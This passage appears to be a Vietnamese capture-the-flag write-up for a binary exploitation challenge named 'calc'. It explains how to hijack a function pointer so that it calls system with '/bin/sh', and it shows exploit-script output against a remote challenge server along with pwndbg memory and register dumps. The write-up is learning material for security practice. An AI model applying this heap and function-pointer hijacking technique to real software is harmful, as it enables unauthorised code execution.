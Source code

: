 Ở bài này, tác giả đã sửa lại hàm `w1n()` một chút, ở tham số truyền vào lại là `echo '¯\\_(ツ)_/¯'` nên chúng ta không thể có shell :vv
```c
─   ~/CTF/wannagame/calc                                                                                                                  5s  05:04:50 ─╮
╰─❯ python3 xpl.py                                                                                                                                          ─╯
[+] Opening connection to 45.122.249.68 on port 20018: Done
[*] '/home/w1n-gl0ry/CTF/wannagame/calc/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pie_base :0x55c01873b000
[*] v_list array :0x55c01873e040
[*] sum :0x55c01873e080
[*] faves :0x55c01873e098
[*] w1n :0x55c01873b9d2
[*] system :0x55c01873b100
[*] Switching to interactive mode
¯\_(ツ)_/¯

```
Quay lại lúc nãy, chúng ta thực thi được hàm `w1n` 

```c
0x558c6065298c <main+173>    call   rdx                           <w1n>
        rdi: 0x558c60655030 (stdin@GLIBC_2.2.5) —▸ 0x7fdff7ff6aa0 (_IO_2_1_stdin_) ◂— 0xfbad208b
        rsi: 0x3
        rdx: 0x558c606529d2 (w1n) ◂— endbr64 
        rcx: 0x0
```

Lúc này chúng ta cần điều khiển thanh ghi `rdi` trỏ đến chuỗi `/bin/sh\0` là được. Lúc gọi con trỏ hàm `((struct Vector *)sum)->printFunc(sum)` tham số của chúng ta là biến `sum`. 


Mà `sum` lúc này đang trỏ đến `v_list-16`, do đó `rdi` chính xác đang trỏ đến `0x558c60655030 (stdin@GLIBC_2.2.5)` như trên hình

Điều chúng ta muốn bây giờ chính là `rdi->/bin/sh ` , `rdx-> w1n`

-> Khá là dễ dàng vì ta chỉ cần ghi vào 2 chunk trên v_list , chỉ số y của chunk này sẽ là `/bin/sh`, chỉ số x của chunk kế tiếp sẽ là địa chỉ hàm `w1n` (cách chính xác 16 bytes), ta sửa sum thành địa chỉ `/bin/sh` là sẽ có được shell

Mọi chuyện đã rõ ràng, ta bắt đầu thực hành:

Mình chỉnh sửa offset hàm w1n ngay chỗ thực hiện `call system` để tránh thanh ghi `rdi` được set cho giá trị rác

```c
00:0000│         0x563e7ff31040 (v_list) ◂— 0x68732f6e69622f /* '/bin/sh' */
01:0008│ rax rdi 0x563e7ff31048 (v_list+8) ◂— 0x68732f6e69622f /* '/bin/sh' */
02:0010│         0x563e7ff31050 (v_list+16) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
03:0018│         0x563e7ff31058 (v_list+24) —▸ 0x563e7ff2e9e4 (w1n+18) ◂— call 0x563e7ff2e100
04:0020│         0x563e7ff31060 (v_list+32) —▸ 0x563e7ff2e9e4 (w1n+18) ◂— call 0x563e7ff2e100
05:0028│         0x563e7ff31068 (v_list+40) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
06:0030│         0x563e7ff31070 (v_list+48) ◂— 0x4
07:0038│         0x563e7ff31078 (v_list+56) ◂— 0x4
08:0040│         0x563e7ff31080 (v_list+64) —▸ 0x563e7ff2e35d (printData) ◂— endbr64 
09:0048│         0x563e7ff31088 (sum) —▸ 0x563e7ff31048 (v_list+8) ◂— 0x68732f6e69622f /* '/bin/sh'
```
